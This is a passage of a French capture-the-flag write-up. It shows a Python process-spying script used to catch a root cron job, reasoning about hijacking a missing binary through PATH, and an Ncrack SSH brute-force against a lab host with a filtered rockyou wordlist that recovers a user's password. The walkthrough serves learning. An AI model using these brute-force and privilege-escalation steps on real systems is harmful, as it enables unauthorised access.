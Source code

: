 ```python
            if pid not in known_pids:
                command = line[cmd_index:]
                if command.startswith("ps"):
                    continue

                print(pid, user, command)
                known_pids[pid] = command

    if time() - start > TIME:
        break
```

Une solution plus performante serait de se baser sur *inotify* (exercice laissé au lecteur comme on dit :D )  

En tout cas ça m'a été utile :  

```plain
30747 root /usr/sbin/cron -f
30748 root /bin/sh -c cd /lib/logs/ && ./homeless.py
30750 root /bin/sh -c cd /lib/logs/ && ./homeless.py
30751 Debian-+ /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root
30755 Debian-+ /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root
30756 root /usr/sbin/exim4 -Mc 1enu4P-0007zz-GI
```

On voit bien ici que le script Python est appelé tel quel et comme il manque le bon shebang il va tenter d'exécuter *import* qui n'est pas présent sur le système (paquet *ImageMagick* il me semble) mais même en plaçant notre *import* piégé dans */lib/logs* toujours rien...  

En fait tout simplement root n'a pas le dossier courant dans son PATH... Dès lors notre seule option est de devenir *downfall* qui a les droits d'écriture sur le fichier via son GID.  

Ncrack attack
-------------

*Kartone* m'a rappelé la présence d'un indice dans la description du CTF :  

> If you got big stuck, Try with Password start with "sec\*" with nice wordlist.

Dans un premier temps j'ai fait le tri sur *RockYou* :  

```plain
grep -i -e "^sec" /opt/wordlists/rockyou.txt > seclist.txt
```

et Ncrack a fait le reste :  

```plain
$ ncrack -u downfall -P seclist.txt -T4 ssh://192.168.2.3

Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-02-22 21:15 CET

Discovered credentials for ssh on 192.168.2.3 22/tcp:
192.168.2.3 22/tcp ssh: 'downfall' 'secretlyinlove'

Ncrack done: 1 service scanned in 452.97 seconds.

Ncrack finished.
```
